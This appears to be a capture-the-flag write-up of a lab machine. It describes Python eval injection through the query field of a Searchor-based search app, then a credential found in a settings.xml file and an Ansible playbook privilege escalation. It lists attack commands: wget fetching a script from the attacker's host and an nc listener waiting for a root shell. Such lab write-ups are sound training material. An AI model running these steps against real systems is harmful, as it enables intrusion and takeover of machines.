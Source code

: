 ## Intial Foothold
**Abuse Searchor to execute commands**


### Resources
- [Searchor Repo](https://github.com/ArjunSharda/Searchor)
- [Python Eval Function](https://realpython.com/python-eval-function/#understanding-pythons-eval)
- [Bypass python sandbox](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

### Exploit

```
python3 exploit.py
```
**Steps**
- When I went to website I found that it using Searchor.
- I downloaded Searchor on my local machine and play with it to find a way to execute commands.
- I assumed web application pass the query and engine parameters in POST request to Searchor directly.

  ``Engine.<engine>.search('<query>')``
- I tried to abuse engine parameter and there was no way to abuse it.
- Then I focused on query parameter and sent ' in it and it break the application so I was in the correct way.
  Normal Request:
  
  
  ![image](https://user-images.githubusercontent.com/59315492/230909846-0853fa7b-4b09-484c-9c39-0ba820f0883b.png)
  
  
  Response:
 
  ![image](https://user-images.githubusercontent.com/59315492/230909887-618f1b70-34c0-4b5f-a2b5-e7d6429a5f1b.png)
  
  
  Abused Request with ' :
  
  ![image](https://user-images.githubusercontent.com/59315492/230910048-4acc9c72-8621-4f3b-9092-895cc6dd7250.png)
  
  
  Response:
  
  ![image](https://user-images.githubusercontent.com/59315492/230910150-0326e94e-fe54-498a-9f9b-9319b44e5bd2.png)

- I tried to bypass Searchor on my local machine and I found a way to bypass it.
  
  ![image](https://user-images.githubusercontent.com/59315492/230912748-0bacadcb-d71a-4c10-a5ed-486798bccc35.png)

  ![image](https://user-images.githubusercontent.com/59315492/230912809-fa50c90a-bae6-4748-81ea-fd311472cfdf.png)


---
## Privilege Escalation:
**SU to phil user using his password located in /home/frank/.m2/settings.xml and use Ansible playbook to ecalate to root**

[Ansible Playbook Exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

### Exploit

- Upload PrivEsc.py to target using wget and python Simple HTTP Server.
  - Run Simple HTTP Server on Attacker Machine.
    
    ```
    python3 http.server 8000
    ```
  - Download PriEsc.py on Target Machine.
    
    ```
    wget http://<Local_IP>:8000/PrivEsc.py
    ```
- Run netcat listener on Attacker Machine

    ```
    nc -nlvp 4444
    ```
- Run PrivEsc.py and wait for Root shell connection it may take a while.

    ```
    python3 PrivEsc.py
    ```
